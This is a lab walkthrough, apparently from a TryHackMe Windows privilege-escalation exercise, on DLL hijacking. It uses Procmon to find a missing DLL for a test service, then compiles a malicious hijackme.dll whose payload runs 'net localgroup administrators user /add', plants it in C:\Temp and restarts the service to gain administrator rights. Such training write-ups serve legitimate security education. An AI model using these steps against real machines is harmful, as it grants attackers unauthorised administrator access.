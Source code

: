 # DLL Hijacking

DLL hijacking looks for a specific applications fails to load a DLL file due to the intended/valid file not being found (”NAME NOT FOUND”). By adding a malicious DLL file to the load path the application searches for DLLs when loading, we can inject the malicious DLL where the valid DLL was not found (”NAME NOT FOUND”). This results in the malicious DLL being called when the application is loaded.

## Step 1: Detection

Launch Procmon64.exe using provide admin credentials.

Open the Filter menu and add the following filters:

- `Result is NAME NOT FOUND`
- `Path ends with .dll`

![procmon1](images/procmon1.png)

Click `apply` and `Ok`

We are going to trigger the service `dllsvc` to simulate the exploit for demonstration purposes.

```bash
C:\Users\user> sc start dllsvc
```

![start](images/start.png)

The `dllhijackservice` has a `NAME NOT FOUND` for `C:\Temp\hijackme.dll`

![procmon2](images/procmon2.png)

## Step 2: Exploitation

Begin by moving the file `C:\Users\user\Desktop\Tools\Source\windows_dll.c` to our attack box

![source](images/source.png)

Start a Python FTP server on our attack box

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-29 20:43:08] concurrency model: async
[I 2023-12-29 20:43:08] masquerade (NAT) address: None
[I 2023-12-29 20:43:08] passive ports: None
[I 2023-12-29 20:43:08] >>> starting FTP server on 0.0.0.0:21, pid=386019 <<<
```

Upload the `windows_dll.c` file from the target box

![ftp1](images/ftp1.png)

Add the following line to `windows_dll.c` to add the `user` account to the local `administrators` group

```bash
system('cmd.exe /k net localgroup administrators user /add');
```

![edit](images/edit.png)

Compile the `windows_dll.c` source code file to the `hijackme.dll` output

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$  x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

Upload `hijackme.dll` to the `C:\Temp` directory on the target

![upload1](images/upload1.png)

![upload2](images/upload2.png)

Now start the dllsvc service to get the `user` account added to the `administrators` local group

```bash
C:\Users\user> sc stop dllsvc & sc start dllsvc
```

![start2](images/start2.png)
